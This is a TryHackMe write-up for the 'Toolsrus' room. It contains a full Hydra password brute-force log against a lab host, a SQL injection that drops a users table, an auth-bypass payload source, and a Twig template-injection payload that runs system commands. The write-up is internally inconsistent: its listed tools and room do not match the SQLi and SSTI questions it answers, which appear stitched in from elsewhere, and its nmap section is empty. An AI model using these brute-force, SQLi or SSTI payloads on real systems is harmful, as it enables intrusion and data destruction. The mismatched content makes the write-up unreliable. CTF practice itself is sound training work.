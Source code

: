 # 🚀 TryHackMe: Toolsrus — Write-Up  
**Room URL:** [https://tryhackme.com/room/toolsrus]
**Author:** *Irregular*  
**Date:** *14-06-2025*

---
## 📝 Overview  

> *This room is for to enhance enumeration skills and in result get access over the machine through the use of various tools *
>
> ## 🛠️ Tools Used  

-`Dirbuster`
-`Hydra`
-`Nmap`
-`Nikto`
-`Metasploit`

---
##RECON FINDINGS##

*Dirbuster*
![1](https://github.com/user-attachments/assets/59747491-483c-4faa-80ae-1f65a38d4cd5)

![image](https://github.com/user-attachments/assets/c4f2071d-138e-4741-9b26-966f57988782)
![image](https://github.com/user-attachments/assets/ab730d14-2d63-48a3-a4d7-487ad14756a0)


*hyra*
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-06-30 02:58:31
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking http-get://10.10.95.199:80/protected/
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "123456" - 1 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "12345" - 2 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "123456789" - 3 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "password" - 4 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "iloveyou" - 5 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "princess" - 6 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "1234567" - 7 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "rockyou" - 8 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "12345678" - 9 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "abc123" - 10 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "nicole" - 11 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "daniel" - 12 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "babygirl" - 13 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "monkey" - 14 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "lovely" - 15 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "jessica" - 16 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "654321" - 17 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "michael" - 18 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "ashley" - 19 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "qwerty" - 20 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "111111" - 21 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "iloveu" - 22 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "000000" - 23 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "michelle" - 24 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "tigger" - 25 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "sunshine" - 26 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "chocolate" - 27 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "password1" - 28 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "soccer" - 29 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "anthony" - 30 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "friends" - 31 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "butterfly" - 32 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "purple" - 33 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "angel" - 34 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "jordan" - 35 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "liverpool" - 36 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "justin" - 37 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "loveme" - 38 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "fuckyou" - 39 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "123123" - 40 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "football" - 41 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "secret" - 42 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "andrea" - 43 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "carlos" - 44 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "jennifer" - 45 of 14344399 [child 2] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "joshua" - 46 of 14344399 [child 0] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "bubbles" - 47 of 14344399 [child 3] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "1234567890" - 48 of 14344399 [child 1] (0/0)
[ATTEMPT] target 10.10.95.199 - login "bob" - pass "superman" - 49 of 14344399 [child 0] (0/0)
[80][http-get] host: 10.10.95.199   login: bob   password: bubbles
[STATUS] attack finished for 10.10.95.199 (waiting for children to complete tests)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-06-30 02:58:47

```
*nmap*

**QUESTIONS FROM THE ROOM**
***Q1.What is the flag value after logging into the admin panel?***
for this first visited the login page and tried to intercept the request using burp suite community edition as i have the creditial already i just need to delete tha 'users' table from the database.
![burp](https://github.com/user-attachments/assets/4b049b91-d7ba-4dbd-91f8-a47abab018a4)

then, i sent the request to intruder and used the SQLi payload from `https://github.com/payloadbox/sql-injection-payload-list/blob/master/Intruder/exploit/Auth_Bypass.txt`
![intrude](https://github.com/user-attachments/assets/87f756e5-f424-4b2a-8c11-158e4044b667)

![VirtualBox_kali-linux-2024 3-virtualbox-amd64_14_06_2025_17_28_03](https://github.com/user-attachments/assets/3c2707bd-d2f3-4745-8202-e8ac686963a9)

and from this i got the payload and refreshed the page and i got into it,also To get access to the admin panel for the challenge question, I need to delete the ‘users’ table. So I want to find somewhere to inject:
`drop table users -- -`
after refreshing 
 and  after logging out we use the admincredentials and _voila_
 ![VirtualBox_kali-linux-2024 3-virtualbox-amd64_14_06_2025_18_12_06](https://github.com/user-attachments/assets/b1215812-4205-4d57-8b90-abd6d115eb2d)

 ***What is the content of the hidden text file in the flags folder?***
 >for this we'll look for a SSTI on the page where the input can give us RCE or directly get the result
> ![image](https://github.com/user-attachments/assets/22a5195f-4690-4fdc-a46b-607c7bf298c4)
>![image](https://github.com/user-attachments/assets/4238b077-0755-4cc5-b98d-2c15713e6bd3)
now i'll try to get a RCE on this uing netcat as we know already that this page uses ***twig*** for the code of template injeacaation. i did some searching and foound i can use sort pass thru function.
>{{['id',""]|sort('passthru')}}
>![image](https://github.com/user-attachments/assets/6ac83e92-baa3-467a-9129-c7c1bde798b6)
and now after some chaining and iterations i got the flag
>![VirtualBox_kali-linux-2024 3-virtualbox-amd64_14_06_2025_17_28_03](https://github.com/user-attachments/assets/12047a7d-e6e7-486f-aa91-4278052bd70c)
